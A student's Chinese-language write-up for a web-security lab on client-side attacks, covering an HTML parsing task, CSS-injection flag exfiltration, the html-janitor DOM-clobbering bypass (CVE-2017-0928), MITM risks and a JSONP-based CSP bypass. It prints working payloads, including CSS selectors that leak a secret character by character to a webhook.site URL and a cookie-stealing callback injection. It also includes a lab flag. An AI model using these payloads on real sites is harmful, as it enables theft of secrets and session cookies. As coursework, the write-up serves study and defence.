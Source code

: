 # Web Lab 2：用户侧攻击

---

# Task 1: HTML Parser (15 分 )
1.  这题要求以层序遍历的方式解析一个html文件，其实主要是考察对于解析工具的使用。
2.  我这里使用了Beautiful Soup，lxml，以及队列来快速处理层序遍历。
3.  先用队列形式，最后用逗号join成字符串之后再用题目给的代码，用hashlib转md5。
4.  flag:`AAA{0e6451a90a50ea7a8b1719b7dbcf6dac}`

---

# Task 2: Show me the secret (20 分 )
1.  这道题是一个css注入的本地实现，先解释一下题目给的情景。
    1.  这里使用了flask框架，~~我们知道flask框架的debug=true会发生很奇怪的事~~。
    2.  框架内规定了三个路由：index victim 和 inject，后面两个给了html，随便补了一个index。
    3.  观察这个victim页面，首先需要127.0.0.1才能访问，渲染的时候会把victim.html里面input块的value替换成真正的flag；此外还有一个css渲染的位置，直接读取本地的custom.css。
    4.  这个inject页面有一个post提交的入口，会把提交的内容直接保存到custom.css，那这就是注入点的位置了。
    5.  所以管理员每次登录`/victim`的时候都会渲染一次html，然后调用css里的代码，这样就能类似布尔盲注的一位一位读出flag。
2.  但可惜我没有服务器，内网穿透有点麻烦，所以这里我是用了webhook开了一个公网ip给我用，在payload里面`background-img`里面就放上这个webhook的url，就能收到victim发来的请求。
3.  既然flag放在input里面，name = “secret”，所以我尝试模仿ppt构造如下的语句。
4.  `input[name="secret"][value^="A"] { background-image: url("https://webhook.site/7aa20480-9424-4214-bb23-99ffe7e0a1d/?data=A"); }`
5.  但是发现这个语句很难向我的webhook发送请求，极少数情况有成功过，belike:
    ![Webhook收到的请求](c1.png)
6.  原因可能是出在这个hidden块，搜索结果是：现代主流浏览器（如 Chrome、Firefox）出于性能和安全优化，通常不会为一个 `type="hidden"` 的输入框或任何被设置为 `display: none;` 的元素加载 `background-image`。
7.  所以我换了一种注入方法，是使用了`has()`块，这是一个父选择器，语法类似`body:has(input[name="secret"][value^="A"])`，意思是选择body元素，前提是内部包含了一个name 是 secret的且第一位为A的input元素，然后我们就可以给这个body块“加背景”（其实就是注入我们的url）。
8.  具体语法如下：
9.  `body:has(input[name="secret"][value^="A"]) {background-image: url(https://webhook.site/7aa20480-9424-4214-bb23-99ffe7e0a1d8/?found=A);}`
10. OK！这个payload百试百灵。
    ![新payload成功](c4.png)
11. 本地测试的具体流程是：inject页面注入payload，进victim页面刷新浏览器，然后就可以在webhook的统计页面看到我们的请求啦！
12. 这样就确认了前三位是AAA，同理，接下来尝试后面的就可以拿到整个flag。
13. 既然这样就可以开始写脚本了,既然本地不好模拟浏览器的渲染css，那就主要体现一下攻击的过程。
14. 由于我使用的是webhook的监听，所以我这里的操作是打开脚本，然后自动发送payload，然后进入victim页面刷新一下，然后等待webhook收到，再在对话框敲入刚收到的，之后继续这个过程。
15. 看一下custom.css：
    ![custom.css文件内容](c6.png)
16. 所以交互的过程就长这样：
    ![脚本交互过程](c3.png)
17. 在webhook里面长这样：
    ![Webhook中收到的请求](c5.png)
18. 代码提交为task2.py。

---

# Task 3: node.\_sanitized (30 分 )
搜索并简要解释 CVE-2017-0928 的原理
1.  回顾一下DOM Clobbering，这是一种前端攻击技巧，他是建立在一个特性上，即：当你在 HTML 中创建带有 id 或 name 属性的元素时，浏览器会自动在 `window` 或 `document` 对象上创建同名的全局 JavaScript 变量，其值指向该 DOM 元素。
2.  比如说ppt里面那个`AAA 喵~`的代码就是DOM操作，先用`getElementById`选择id=target的html元素，然后再新建`<span>`的内容修改target。
3.  DOM Clobbering就是基于某些 HTML 元素的 `id` 或 `name` 属性会自动在 `window` 对象上创建同名的全局变量，通过 `id` 或 `name` 属性来“篡改”或“覆盖”应用程序中已经存在的 JavaScript 全局变量或对象属性。这会导致程序的逻辑被意外改变，从而绕过安全限制或执行非预期的操作。
4.  CVE-2017-0928受影响对象是一个名为 `html-janitor` 的 JavaScript 库，这是一个html的过滤器，处理一些可能的恶意注入的代码来保持html的纯净，比如移除`<script>`之类的。
5.  那么这个`html-janitor`在在清理 HTML 时，会遍历 DOM 树的每一个节点，如果一个节点已经被处理过了，就给它打上一个`node._sanitized = true`的标记，下次再遇到就直接跳过。
6.  但是，`node._sanitized`只是一个普通的js属性，可以通过 DOM Clobbering 被覆盖。
7.  所以攻击者只需要在构造的html里面让 `if (node._sanitized)` 这个判断条件意外地为 `true` 就可以了，攻击的核心如下：
    1.  Payload:`<form><object name="_sanitized"></object></form>`
    2.  html-janitor开始处理这个html代码的时候，先访问到form元素，此时`node`指向这个form，开始执行`if (node._sanitized)` 的判断。
    3.  由于`node`是`<form>`元素，所以就起到了DOM Clobbering的效果，即`node._sanitized` 实际上是在访问 `<form>` 元素的一个名为`_sanitized` 的子元素,又正好有一个子元素的 `name` 是 `_sanitized`。
    4.  因此，`node._sanitized` 的值就变成了这个 `<object>` 对象，而对象在判断里是true，就对html-janitor进行了一个绕过，之后只需要在form里面放上我们需要的注入代码就行。

---


# Task 7: 拓展 (20 分 )
1.  自行搜索并学习中间人攻击, 解释为什么我们要避免连接公共 Wifi ( 如饭馆 , 咖啡厅 )
    1.  根据维基百科，中间人攻击就是通讯的两端认为他们正在通过一个私密的连接与对方直接对话，事实上整个会话都被攻击者（中间人）完全控制，攻击者可以拦截通讯双方的通话并插入新的内容。
    2.  举一个非对称加密的例子：比如A和B进行通话，而C可以拦截A发给B的公钥，改为发送自己的公钥，也可以拦截B发给A的公钥，这样子在下一次交换的时候，由于A与B都认为这个公钥就是对方的，而利用这个公钥加密信息，导致被C截获，C甚至可以篡改这个信息，并用刚刚得到的公钥再进行加密。
    3.  中间人攻击的技术有很多种，比如ARP欺骗，这一般出现在连接路由器的局域网内，ARP协议是把IP地址翻译成MAC物理地址的协议，攻击者可以通过向用户的设备和路由器发起攻击，进而充当中间人的身份，获得两者沟通的所有信息。
    4.  此外还有DNS欺骗，攻击者可以截获DNS解析请求，比如修改到一个近似的网站上，诱导用户输入隐私信息；WiFi欺骗：在公共场所的类似wifi名字，比如KFC-Free-Wifi和KFC\_Free\_Wifi，如果错连的话，那么数据就会经过攻击者再被转发。
    5.  所以我们就要避免连接公共Wifi，原因之一就是我们无法判断这个wifi是官方提供的安全wifi还是攻击者建立的；此外，免费的公共wifi与设备之间传输的数据往往是未加密的，容易被同一局域网下的用户给捕获。
    6.  一旦被中间人攻击之后，我们的隐私数据就变得透明，攻击者可以轻易获取登录凭证、监控网络活动或者注入恶意内容。
2.  自行搜索并学习课上提到的CSP 策略, 解释为什么 CSP 可以防止 XSS 攻击 , 并构造一个配置不当的 CSP 被绕过的例子 ( 不需要给出代码实现 , 只需要描述 )
    1.  CSP是一个额外的安全层，用于过滤特定攻击比如XSS攻击，以下是可以防止XSS攻击的原因：
        1.  XSS 攻击利用了浏览器对于从服务器所获取的内容的信任,CSP 通过指定有效域,即浏览器认可的可执行脚本的有效来源,让服务器能过滤一些XSS攻击的载体文件，一个 CSP 兼容的浏览器将会仅执行从白名单域获取到的脚本文件，忽略所有的其他脚本，始终不允许执行脚本的站点可以选择全面禁止脚本执行。
        2.  除此之外，服务器还可指明哪种协议允许使用，比如全部指定HTTPS协议。
    2.  一个配置不当的例子：过于宽泛地使用白名单，允许不安全的JSONP端点。
        1.  比如说某个网站使用了`Content-Security-Policy: script-src 'self' https://trusted-web.com`, 然后这个`trusted-src`网站有一个提供JSONP服务的API端点，这里会创建一个 `<script>` 标签来加载一个远程URL，这个url会返回一段json数据：`fun({"data":"value"})`。
        2.  所以，如果这个api没有经过严格的过滤，攻击者就会在这里注入js代码，比如：
        3.  `<script src="https://trusted-web.com/api/data?callback=alert(document.cookie)//"></script>`
        4.  由于`trusted-web`是被允许的，那么浏览器就会往这里发请求，返回callback参数的值:
        5.  `alert(document.cookie)//({"data": "value"})`那么这里的数据就被注释了，而前面的参数就成了js代码被执行，可以窃取cookie。
        6.  因此，尽量避免使用过于宽泛的域名作为白名单，应指定到具体的脚本路径。